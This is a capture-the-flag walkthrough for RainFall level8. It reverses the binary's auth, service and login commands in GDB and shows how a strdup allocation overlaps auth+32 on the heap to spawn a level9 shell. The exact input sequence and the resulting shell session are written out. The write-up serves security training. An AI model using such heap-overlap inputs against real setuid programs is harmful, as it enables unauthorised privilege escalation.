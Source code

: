 # Walkthrough

After finding a binary file named "level8" in the home directory and executing it, it was unclear what the program did.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
AAAA
(nil), (nil) 
BBBB
(nil), (nil) 
CCCCC
(nil), (nil) 
^C
```

 To gain a better understanding of the program's functionality, i reversed using GDB.

The reversed program begins by printing the addresses of two global variables, "auth" and "service." It then reads input from the user and stores it in a buffer.

```s
   0x08048575 <+17>: mov    ecx,DWORD PTR ds:0x8049ab0 // service
   0x0804857b <+23>: mov    edx,DWORD PTR ds:0x8049aac // auth
   0x08048581 <+29>: mov    eax,0x8048810
   0x08048586 <+34>: mov    DWORD PTR [esp+0x8],ecx
   0x0804858a <+38>: mov    DWORD PTR [esp+0x4],edx
   0x0804858e <+42>: mov    DWORD PTR [esp],eax
   0x08048591 <+45>: call   0x8048410 <printf@plt>
   0x08048596 <+50>: mov    eax,ds:0x8049a80
   0x0804859b <+55>: mov    DWORD PTR [esp+0x8],eax
   0x0804859f <+59>: mov    DWORD PTR [esp+0x4],0x80
   0x080485a7 <+67>: lea    eax,[esp+0x20]              // buffer
   0x080485ab <+71>: mov    DWORD PTR [esp],eax
   0x080485ae <+74>: call   0x8048440 <fgets@plt>

```

The program repeatedly compares the contents of the buffer with a string located at address "0x8048819" containing the word "auth," until either the strings do not match, the length of the buffer is reached, or the value of register ECX is equal to zero.

```s
   0x080485bb <+87>: lea    eax,[esp+0x20]
   0x080485bf <+91>: mov    edx,eax
   0x080485c1 <+93>: mov    eax,0x8048819
   0x080485c6 <+98>: mov    ecx,0x5
   0x080485cb <+103>: mov    esi,edx
   0x080485cd <+105>: mov    edi,eax
   0x080485cf <+107>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080485d1 <+109>: seta   dl
   0x080485d4 <+112>: setb   al
   0x080485d7 <+115>: mov    ecx,edx
   0x080485d9 <+117>: sub    cl,al
   0x080485db <+119>: mov    eax,ecx
   0x080485dd <+121>: movsx  eax,al
   0x080485e0 <+124>: test   eax,eax

```

If the comparison is equal to zero, the program allocates memory for "auth" and calculates the length of the string following the word "auth." If the length is less than or equal to 30, the program copies the string following "auth" into the global variable "auth" using the "strcpy" function.

```s
   0x080485e2 <+126>: jne    0x8048642 <main+222>
   0x080485e4 <+128>: mov    DWORD PTR [esp],0x4
   0x080485eb <+135>: call   0x8048470 <malloc@plt>
   0x080485f0 <+140>: mov    ds:0x8049aac,eax
   0x080485f5 <+145>: mov    eax,ds:0x8049aac
   0x080485fa <+150>: mov    DWORD PTR [eax],0x0
   0x08048600 <+156>: lea    eax,[esp+0x20]
   0x08048604 <+160>: add    eax,0x5
   0x08048607 <+163>: mov    DWORD PTR [esp+0x1c],0xffffffff
   0x0804860f <+171>: mov    edx,eax
   0x08048611 <+173>: mov    eax,0x0
   0x08048616 <+178>: mov    ecx,DWORD PTR [esp+0x1c]
   0x0804861a <+182>: mov    edi,edx
   0x0804861c <+184>: repnz scas al,BYTE PTR es:[edi]
   0x0804861e <+186>: mov    eax,ecx
   0x08048620 <+188>: not    eax
   0x08048622 <+190>: sub    eax,0x1
   0x08048625 <+193>: cmp    eax,0x1e
   0x08048628 <+196>: ja     0x8048642 <main+222>
   0x0804862a <+198>: lea    eax,[esp+0x20]
   0x0804862e <+202>: lea    edx,[eax+0x5]
   0x08048631 <+205>: mov    eax,ds:0x8049aac
   0x08048636 <+210>: mov    DWORD PTR [esp+0x4],edx
   0x0804863a <+214>: mov    DWORD PTR [esp],eax
   0x0804863d <+217>: call   0x8048460 <strcpy@plt>
```

If the comparison is not equal to zero, the program moves on to the next condition, which compares the buffer with the string "reset" located at address "0x804881f".

```s
   0x08048642 <+222>: lea    eax,[esp+0x20]
   0x08048646 <+226>: mov    edx,eax
   0x08048648 <+228>: mov    eax,0x804881f
   0x0804864d <+233>: mov    ecx,0x5
   0x08048652 <+238>: mov    esi,edx
   0x08048654 <+240>: mov    edi,eax
   0x08048656 <+242>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>: seta   dl
   0x0804865b <+247>: setb   al
   0x0804865e <+250>: mov    ecx,edx
   0x08048660 <+252>: sub    cl,al
   0x08048662 <+254>: mov    eax,ecx
   0x08048664 <+256>: movsx  eax,al
   0x08048667 <+259>: test   eax,eax
```

 If the comparison is equal to zero, the program frees the memory allocated for "auth."

```s
   test   eax,eax
   0x08048669 <+261>: jne    0x8048678 <main+276>
   0x0804866b <+263>: mov    eax,ds:0x8049aac
   0x08048670 <+268>: mov    DWORD PTR [esp],eax
   0x08048673 <+271>: call   0x8048420 <free@plt>

```

If not, the program moves on to the next condition, which compares the buffer with the string "service" located at address "0x8048825".

```s
   0x08048678 <+276>: lea    eax,[esp+0x20]
   0x0804867c <+280>: mov    edx,eax
   0x0804867e <+282>: mov    eax,0x8048825
   0x08048683 <+287>: mov    ecx,0x6
   0x08048688 <+292>: mov    esi,edx
   0x0804868a <+294>: mov    edi,eax
   0x0804868c <+296>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>: seta   dl
   0x08048691 <+301>: setb   al
   0x08048694 <+304>: mov    ecx,edx
   0x08048696 <+306>: sub    cl,al
   0x08048698 <+308>: mov    eax,ecx
   0x0804869a <+310>: movsx  eax,al
   0x0804869d <+313>: test   eax,eax
```

If the comparison is equal to zero, the program duplicates the contents of the buffer from the address "buffer+7" using the "strdup" function.

```s
   0x0804869f <+315>: jne    0x80486b5 <main+337>
   0x080486a1 <+317>: lea    eax,[esp+0x20]
   0x080486a5 <+321>: add    eax,0x7
   0x080486a8 <+324>: mov    DWORD PTR [esp],eax
   0x080486ab <+327>: call   0x8048430 <strdup@plt>
   0x080486b0 <+332>: mov    ds:0x8049ab0,eax
```

If the comparison is not equal to zero, the program moves on to the next condition, which compares the contents of the buffer with the string "login" located at address "0x804882d".

```s
   0x080486b5 <+337>: lea    eax,[esp+0x20]
   0x080486b9 <+341>: mov    edx,eax
   0x080486bb <+343>: mov    eax,0x804882d
   0x080486c0 <+348>: mov    ecx,0x5
   0x080486c5 <+353>: mov    esi,edx
   0x080486c7 <+355>: mov    edi,eax
   0x080486c9 <+357>: repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>: seta   dl
   0x080486ce <+362>: setb   al
   0x080486d1 <+365>: mov    ecx,edx
   0x080486d3 <+367>: sub    cl,al
   0x080486d5 <+369>: mov    eax,ecx
   0x080486d7 <+371>: movsx  eax,al
   0x080486da <+374>: test   eax,eax
```

If the comparison is equal to zero, the program checks if the value of "auth" plus 32 is equal to zero. If it is, the program prints "Password:\n."

```s
   0x080486ff <+411>: mov    eax,ds:0x8049aa0
   0x08048704 <+416>: mov    edx,eax
   0x08048706 <+418>: mov    eax,0x804883b
   0x0804870b <+423>: mov    DWORD PTR [esp+0xc],edx
   0x0804870f <+427>: mov    DWORD PTR [esp+0x8],0xa
   0x08048717 <+435>: mov    DWORD PTR [esp+0x4],0x1
   0x0804871f <+443>: mov    DWORD PTR [esp],eax
   0x08048722 <+446>: call   0x8048450 <fwrite@plt>
```

If not, the program starts a new shell process using the "system" function with "/bin/sh" as a parameter.

```s
   0x080486ee <+394>: mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>: call   0x8048480 <system@plt>
```
Finally, the program reads input from the user and repeats the same actions.

In order to obtain the flag, it is necessary to modify the value of the global variable "auth" located at [address+32]. However, there is a condition in place that checks whether the length of the string following the "auth" keyword is less than or equal to 30. 

first, I will display the contents of the heap after entering the keyword "auth" into the program.

```s
(gdb) run
Starting program: /home/user/level8/level8 
(nil), (nil) 
auth AAAABBBB
(gdb) x/16wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x41414141      0x42424242
                                                    └────────────────┴───────── these addresses was filled by auth    
0x804a010:      0x0000000a      0x00020ff1      0x00000000      0x00000000

0x804a020:      0x00000000      0x00000000      0x00000000<──┐  0x00000000
                                                             └────────────────── We need to fill this address `0x804a028`
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
```

Upon inputting the keyword `service`. The strdup function will populate the memory address located at 0x804a028 with a string of characters when the input buffer is of sufficient length.


```s
(gdb) c
Continuing.
0x804a008, (nil) 
serviceAAAABBBBCCCCDDDDEEEE
(gdb) x/16wx 0x804a000
0x804a000:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a010:	0x0000000a	0x00000021	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x0000000a
0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
(gdb) c
Continuing.
0x804a008, 0x804a018 
login
$ echo $PWD
/home/user/level8
```

After inputting the appropriate characters with the last input, it can be observed that the memory address at 0x804a028 is filled, which ultimately initiates the shell process.

At this point, all that is required is to execute the level8 program using the inputs described previously in order to retrieve the flag.

```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth AAAABBBB
0x804a008, (nil) 
service AAAABBBBCCCCDDDDEEEE
0x804a008, 0x804a018 
login
$ whoami
level9
$ cd ../level9
$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
```